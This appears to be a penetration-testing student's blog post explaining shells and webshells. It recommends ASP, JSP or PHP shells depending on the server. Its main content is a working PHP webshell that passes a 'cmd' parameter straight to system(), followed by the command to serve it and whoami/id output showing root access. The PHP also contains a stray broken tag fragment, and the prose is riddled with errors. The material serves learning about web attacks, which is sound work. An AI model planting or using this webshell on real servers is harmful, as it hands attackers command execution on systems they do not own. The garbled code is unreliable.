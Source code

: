 ```yaml
---
layout: post
title: "Shells"
date: "2022-07-28"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student
    - Network Attacks
---
```


# Shells
Shell is the name for Bash terminal, but in penetration testing it also the common name of the program that allows you to execute commands on operating system. Depending on the programing language, shells differ from each other, but their purpose is always the same. They are used to extend program language execution to system command execution. Such a program when exploit web application is often named webshell. A web shell is a script writen in language that will executed by the server, there is no universal webshell, and you should have few awsome when apporach differnt applications.

If you are able to upload any file on the server, you should try ASP shell on Windows server. JSP shell on apache tomcat, and PHP shell on classic Apache. Constructing webshell is a fairly easy task, only basic functionality is needed. A form to allow you to type command, and program that take the logical command and execute it. Most programming add scripting languages in the possibility to interact with underlining operating system using them. There is dedicated funtion that needs language that allows you to do so. For example, `os.popen` in Python or `java.lang.getRuntime.exec` in java.

[Execute a system command](http://rosettacode.org/wiki/Execute_a_system_command)

Let's create a simple PHP webshell:

```php
<html>
<?php

echo "<form method=GET><input type=text name=cmd><input type=submit value=ok></$=ok></form>";
system($_GET["cmd"]);

?>
</html>
```

```
php -S 0.0.0.0:80
```

```
http://192.168.248.148/shell.php
```

The webshell is now running. We have also extended PHP to operating system command execution.

```
whoami
root

id
uid=0(root) gid=0(root) groups=0(root)
```
